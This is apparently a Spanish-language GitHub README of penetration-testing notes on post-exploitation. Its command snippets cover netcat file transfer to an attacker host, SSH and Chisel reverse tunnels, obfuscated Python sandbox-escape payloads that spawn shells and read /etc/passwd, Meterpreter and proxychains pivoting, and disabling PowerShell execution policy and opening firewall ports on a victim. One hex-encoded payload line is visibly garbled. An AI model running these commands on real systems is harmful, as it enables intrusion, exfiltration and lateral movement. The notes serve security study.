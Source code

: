 # Postexplotacion

1. [Escalado de privilegios](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#Escalado-de-privilegios)
	* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
	* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)
1. [Transferencia de archivos](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#transferencia-de-archivos)
1. [Port Forwarding](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#port-forwarding)
1. [Saltando sandbox](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#saltando-sandbox)
1. [Meterpreter](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#meterpreter)
1. [Pivoteando](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting#pivoteando)

## Escalado de privilegios

* [Linux](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Linux.md)
* [Windows](https://github.com/HerculesRD/HerculesDocs/blob/main/PostExploiting/Windows.md)

## Transferencia de archivos

### Netcat

```bash
#envio archivo
nc x.x.x.x port < file.txt
#recibo archivo
nc -lvnp port > file.txt
```

Web Server con NC
```bash
while:; do nc -q 0 -l 80 <<EOF
HTTP/1.1 200 OK
Content-Type: Text/html

<html>
	<body>
		<h1>Current Date is $(date)</h1>
	</body>
</html>
EOF
done
```

## Port Forwarding

Para mandar un servicio que esta corriendo solo para el host local, hacia hosts remotos (o red local a red externa). Tambien puede servir para servicios que necesitan de GUI y no se pueden levantar desde una shell

### SSH

```bash
ssh -R remotePort:localhost:localPort x.x.x.x
```

### Chisel

```bash
#atacante
$chisel server -p 9999 --reverse
#victima
$chisel client IPAtacante:9999 R:RPort:127.0.0.1:LPort
```

## Saltando sandbox

### Python

#### OS Command execution

```bash
os.system("ls")
os.popen("ls").read()
commands.getstatusoutput("ls") 
commands.getoutput("ls")
commands.getstatus("file/path")
subprocess.call("ls", shell=True)
subprocess.Popen("ls", shell=True)
pty.spawn("ls")
pty.spawn("/bin/bash")
platform.popen("ls").read()
open("/etc/passwd").read()
open('/var/www/html/input', 'w').write('123')
```

#### Octal

```bash
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```

#### Hexa
```bash
exec("\x5f\x5f\x69\x6d\xIf youca70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
```

#### b64

```bash
exec('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='.decode("base64")) #
```

Py2
```bash
exec(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2xzJyk='))
```

## Meterpreter

	* [Meterpreter]

## Pivoteando

### Meterpreter

```bash
>run autoroute -s IP_red_victima/MASK

#sshutle
```

### General

```
1) transferir Chisel a la maquina victima

2) en maquina atacante
$./chisel server -p 1337 --reverse

3) en maquina victima
$./chisel client 192.168.1.1:1337 R:socks #linux
>chisel.exe client 192.168.1.1:1337 R:socks #windows

4) si todo correcto en maquina atacante recibimos
2021/01/15 17:11:47 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

5) agregamos esta linea al /etc/proxychains.conf
socks5 127.0.0.1 1080 #el puerto de 4

6) tiramos comandos a traves de proxychains
#ejemplo
$proxychains nmap -sS IP_victima2
```

### Windows

```powershell
//Descomprimir el archivo
powershell -command "Expand-Archive 'C:\openssh.zip' c:\ruta\"

//Instalar el openSSH
powershell -ExecutionPolicy Bypass -File c:\install-sshd.ps1

//añadir reglas al firewall
powershell -Command "New-NetFirewallRule -Name sshd -DisplayName 'OpenSSH Server (sshd)' -Enabled True -Direction Inbound -Protocol TCP -Action Allow -LocalPort 22"

//empezar el sshd service
net start sshd

//Desde el host, linux en este caso
ssh -ACv -D <tunnel_port> <windows-user>@<windows-ip>
```
